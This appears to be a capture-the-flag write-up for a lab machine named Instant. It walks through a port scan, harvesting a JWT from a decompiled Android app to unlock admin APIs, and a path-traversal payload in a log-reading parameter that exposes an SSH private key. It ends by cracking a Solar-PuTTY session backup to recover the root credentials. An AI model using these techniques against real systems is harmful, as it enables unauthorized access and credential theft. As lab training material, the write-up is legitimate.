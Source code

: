 ![](attachment/504cbbbf52112e416f8f6f16a708a590.png)

### Port Scanning

```r
nmap -sC -sV -A -T4 -o port_scan 10.10.11.37
Nmap scan report for 10.10.11.37
Host is up (0.055s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 31:83:eb:9f:15:f8:40:a5:04:9c:cb:3f:f6:ec:49:76 (ECDSA)
|_  256 6f:66:03:47:0e:8a:e0:03:97:67:5b:41:cf:e2:c7:c7 (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Did not follow redirect to http://instant.htb/
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS details: Linux 5.0
Network Distance: 2 hops
Service Info: Host: instant.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   54.27 ms 10.10.14.1
2   54.47 ms 10.10.11.37
```

### APK Analysis

![](attachment/77a9ed10882f906d9e25817c321e1a2e.png)

Download **instant.apk** and open it through **JADX**

![](attachment/b4a3310b3d9a6c37b48ea5abceb16cb5.png)

Is signed an API: **/api/v1/view/profile** associated to **mywalletv1.instant.htb**, add this subdomain to **/etc/hosts/**. In the autorhization header we have a JWT Token:

```r
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.**********
```

Try to contact the API providing the JWT token:

![](attachment/56e479b5143e43554b43834fd47bfbb9.png)

```HTTP
HTTP/1.1 200 OK
Date: Wed, 27 Nov 2024 10:57:42 GMT
Server: Werkzeug/3.0.3 Python/3.12.3
Content-Type: application/json
Content-Length: 236
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

{
   "Profile":{
      "account_status":"active",
      "email":"admin@instant.htb",
      "invite_token":"instant_admin_inv",
      "role":"Admin",
      "username":"instantAdmin",
      "wallet_balance":"10000000",
      "wallet_id":"f0eca6e5-783a-471d-9d8f-0162cbc900db"
   },
   "Status":200
}

```

Looking deeper in apk's source code:

![](attachment/7d59b53a5de20dba595454f9a5901146.png)

Let's add this domain to /etc/hosts and we'll get the accesso to swagger-ui:

![](attachment/ed549b0eaba7fc96a67fd26e5c7731c9.png)

As we can see some apis are locked, but we can unlock them using the JWT token found in the source code of the **apk**:

![](attachment/fe72cdf91a5b8d6dcd7bd6dc3da5e0a1.png)

By clicking on **Authorize** button we'll be able to unlock all apis in the swagger and going under **Logs** section:

![](attachment/6489e7b31d07142da4ac3bc60e46f79c.png)

Through the api: **/api/v1/admin/read/log?log_file_name=1.log** we are able read files' content:

![](attachment/60bc89f506fcfa153688152cd7e10220.png)

Pass the request in Burp and try include sensible files. Injecting **../.ssh/id_rsa** into **log_file_name** parameter we are able to read **shirohige**'s SSH private key:

![](attachment/993417cd9496bbef357fc9255d4f6fbd.png)
### Initial Access

Let's fix the **id_rsa**'s format in VSCode replacing all spaces and useless characters:

![](attachment/e12537eb0b597dd64c4c0a5e4ce4e79d.png)

Fix **id_rsa** permission and use to break in shirohige's SSH:

```r
-----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    .....
    -----END OPENSSH PRIVATE KEY-----
```

```r
┌──(kali㉿kali)-[~/HTB/Instant]
└─$ chmod 600 id_rsa
```

![](attachment/5b44635c699b9705e3761a3c36bd4d30.png)

```shell
userflag:092473a67eb7a**********
```

### Privilege Escalation

I ran **LinPeas** looking for something allowing privesc and it found:

![](attachment/b90c5fb4b8b4274ba018f5e25047a1a3.png)

I downloaded **instant.db** and opened it through [SQLite Viewer](https://inloop.github.io/sqlite-viewer/) :

![](attachment/29d32cfb01b73d9c2ed2f526d23dfa0f.png)

I tried to crack vanessa's and admin's passwords, but didn't succeeded. Going back to linpeas output i noted that there is a file in **/opt/backups/Solar-PuTTY**:

![](attachment/10b16d0c87ad2586375ca7870f252738.png)

Analyzing file content we have:

![](attachment/7f7056b0fe0d1e977c4f46457cf01cd4.png)

It seems to be a sessions backup file from SolarPuTTY, which may contains useful information about SSH sessions, such as usernames or passwords. After a long research on google i found two useful tools to crack thi **.dat**:

-[SolarPuttyCracker](https://github.com/Ak4izZ/SolarPuttyCracker) for Linux
-[SolarPuTTYDecrypt](https://github.com/VoidSec/SolarPuttyDecrypt/tree/master) for Windows

I used the first one:

```r
┌──(SolarPuttyCracker-HSs_2f3g)─(kali㉿kali)-[~/HTB/Alert/SolarPuttyCracker]
└─$ python3 SolarPuttyCracker.py ../sessions-backup.dat -o ../sessions_cracked -w /usr/share/wordlists/rockyou.txt 
```

After running the command, in the output file we'll get all SSH sessions, with clear credentials, including root password:

![](attachment/31a58751d6d2385c5aa1fecde806e4d7.png)


```json
{
    "Sessions": [
        {
            "Id": "066894ee-635c-4578-86d0-d36d4838115b",
            "Ip": "10.10.11.37",
            "Port": 22,
            "ConnectionType": 1,
            "SessionName": "Instant",
            "Authentication": 0,
            "CredentialsID": "452ed919-530e-419b-b721-da76cbe8ed04",
            "AuthenticateScript": "00000000-0000-0000-0000-000000000000",
            "LastTimeOpen": "0001-01-01T00:00:00",
            "OpenCounter": 1,
            "SerialLine": null,
            "Speed": 0,
            "Color": "#FF176998",
            "TelnetConnectionWaitSeconds": 1,
            "LoggingEnabled": false,
            "RemoteDirectory": ""
        }
    ],
    "Credentials": [
        {
            "Id": "452ed919-530e-419b-b721-da76cbe8ed04",
            "CredentialsName": "instant-root",
            "Username": "root",
            "Password": "**********",
            "PrivateKeyPath": "",
            "Passphrase": "",
            "PrivateKeyContent": null
        }
    ],
    "AuthScript": [],
    "Groups": [],
    "Tunnels": [],
    "LogsFolderDestination": "C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"
}                                 
```

Use contained root password to login in it and catch the flag:

![](attachment/84594a655a1f071ca4fbed41ef516d6a.png)

```shell
rootflag:727938c0341**********
```






